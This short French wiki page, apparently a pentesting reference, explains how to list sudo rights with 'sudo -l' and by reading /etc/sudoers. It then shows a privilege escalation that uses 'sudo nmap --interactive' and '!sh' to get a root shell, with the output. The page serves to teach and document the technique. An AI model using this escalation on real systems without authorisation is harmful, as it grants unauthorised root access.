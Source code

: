 ```yaml
---
title: Sudo
permalink: /Sudo/
---
```


Lister les sudoers
------------------

Il est possible de lister les sudoers avec les commandes suivantes:

``` bash
sudo -l
cat /etc/sudoers
```

sudo limité
-----------

Dans certains cas on peut lancer sudo uniquement sur certaines commandes. Il est parfois possible d'utiliser ces commandes pour obtenir un shell root. Par exemple, si on peut lancer nmap avec sudo:

``` bash
sudo nmap --interactive
Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
whoami
root
```

[Category:Technologies](/Category:Technologies "wikilink")[Category:Linux](/Category:Linux "wikilink")